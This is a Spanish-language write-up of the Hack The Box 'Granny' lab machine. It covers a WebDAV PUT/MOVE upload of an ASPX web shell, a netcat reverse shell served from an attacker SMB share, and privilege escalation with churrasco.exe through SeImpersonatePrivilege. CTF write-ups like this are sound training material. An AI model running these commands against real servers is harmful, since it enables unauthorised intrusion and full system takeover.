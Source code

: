 ```yaml
---
title: Granny - HTB Writeup
date: 2023-09-10 19:00:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Windows, Writeup]
image:
  path: /assets/img/post/granny/vishnu-mohanan-pfR18JNEMv8-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


Granny es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad ```Webdav``` que nos permitirá llevar a cabo un ```RFI``` (Remote File Inclusion)

## **Reconocimiento**

Utilizaremos la herramienta ```nmap``` para listar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.15 -oG allPorts
```

![img](/assets/img/post/granny/fc0e3620-808f-47be-b1f9-d096392af0ab.png)

Vemos que esta el puerto ```80``` abierto.

Vamos a realizar un escaneo de **servicios** y **versiones** corriendo por este puerto:

```bash
nmap -sCV -p80 10.10.10.15 -oN versions
```

![img](/assets/img/post/granny/772fc76a-3774-4bd5-baf7-7bbd0b259c64.png)

Gracias al conjunto de scripts básicos de reconocimiento que aplica el escaneo, podemos ver los tipos de peticiones que se pueden realizar en el servidor, además de que en el puerto ```80``` se ha detectado un ```Webdav``` además de un ```IIS``` (Servidor web que maneja solicitudes HTTP y HTTPS)

Si entramos en la web no vamos a ver nada relevante, ni que podamos usar:

![img](/assets/img/post/granny/76a-3774-4bd5-baf7-7bbd0b259c64.png)

## **Explotación**

Vamos a aprovechar una vulnerabilidad de ```Webdav``` que nos permite mediante ```curl``` subir archivos a la máquina víctima

Para ello vamos a intentar subir una **web shell** ```(cmdasp.aspx)```

Primero copiaremos la **web shell** en la ruta actual

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx ..
```

Posteriormente subiremos la **web shell** a la máquina víctima con curl:

```bash
curl -s -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx 
```

> Subiremos el archivo en formato ```.txt``` ya que no podremos en formato ```.aspx```

Una vez el archivo ya subido aprovecharemos el metodo ```MOVE``` para cambiar la extensión de la **web shell** y poder ejecutarla:

```bash
curl -s -X MOVE -H "Destination:http://10.10.10.15/cmdasp.aspx" http://10.10.10.15/cmdasp.txt 
```

> Utilizaremos la cabecera ```Destination``` para modificar el archivo

Ahora si accedemos al archivo tendremos una shell en la que podremos ejecutar comandos:

![img](/assets/img/post/granny/c5fbbfb9-1184-44aa-b98e-2b6d3ab861b2.png)

Para conseguir una **reverse shell** nos copiaremos al archivo actual el ```nc.exe```

```bash
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe . 
```

Utilizaremos ```impacket-smbserver``` para establecer una conexión por ```smb``` y así poder compartir el archivo ```nc.exe``` con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

Por otra parte en la web shell ejecutaremos el siguiente comando para compartirnos una shell mediante ```nc.exe```

```bash
\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443
```

A su vez en nuestra máquina nos pondremos en escucha por el puerto ```443```

```bash
rlwrap nc -nlvp 443
```

Y como vemos habremos conseguido acceso a la máquina:

![img](/assets/img/post/granny/20a75187-f421-4a7c-a021-284397c4291d.png)

Pero no tendremos acceso a los usuarios de la máquina por lo que no podremos ver las flags

## **Escalada de Privilegios**

Para listar los permisos del usuario ejecutaremos:

```bash
whoami /priv
```

![img](/assets/img/post/granny/92b4235d-30a4-4130-86c5-e1e67f582553.png)

El permiso que nos interesa es ```SeImpersonatePrivilege```

> Este permiso es único en Windows, y permite a un usuario o proceso hacerse pasar por otro usuario o proceso

Si buscamos sobre la escalada de privilegios explotando este permiso nos llevará a <https://github.com/Re4son/Churrasco/raw/master/churrasco.exe> y descargaremos el ejecutable ```churrasco.exe``` *(xd)*

Utilizando el ```impacket-smbserver``` compartiremos el ejecutable con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

En la máquina víctima nos moveremos a ```C:\WINDOWS\temp``` y en esta ruta usaremos el comando:

```bash
copy \\10.10.14.5\smbFolder\churrasco.exe churrasco.exe
```

Y una vez copiado ejecutaremos ```churrasco.exe```

```bash
churrasco.exe

/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
```

Vemos la función del ejecutable, por lo que intentaremos conseguir una shell como ```root```, así que deberemos usar ```nc.exe```:

```bash
churrasco.exe "\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443"
```

Y de nuevo nos pondremos en escucha con ```nc``` por el puerto ```443```:

![img](/assets/img/post/granny/02314c0d-6e4f-4428-b151-05c1cb14f8dd.png)

Y ya tendremos acceso a la máquina como usuario privilegiado

Podremos ver ambas **flag** en el ``Desktop`` del ``usuario`` y del ``administrator``

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*
